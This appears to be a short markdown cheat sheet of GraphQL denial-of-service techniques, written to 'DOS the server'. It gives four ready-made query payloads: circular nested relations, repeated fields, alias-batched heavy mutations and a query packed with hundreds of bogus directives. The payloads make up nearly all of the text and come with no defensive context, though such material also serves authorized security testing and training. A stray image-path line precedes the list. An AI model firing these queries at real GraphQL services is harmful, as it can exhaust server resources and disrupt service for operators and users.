 1- look for circular relations in order to DOS the server 
```
query{post{owner{post{owner{post{owner{post{owe}}}}}}}}
```


2- look for repeatable fields 
```
    pastes {
        content
        content
        content
        content
        content
        content
        content
        content
        content
        content
    }
}
```

3- look for heavy query and try to repeat it with aliases
```
query {
    one:systemUpdate
    two:systemUpdate
    three:systemUpdate
    four:systemUpdate
}
```
4- test for directive overloading ( supply any non-existant directive and repeat it)
```
query {
    pastes{title @aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@}}
```

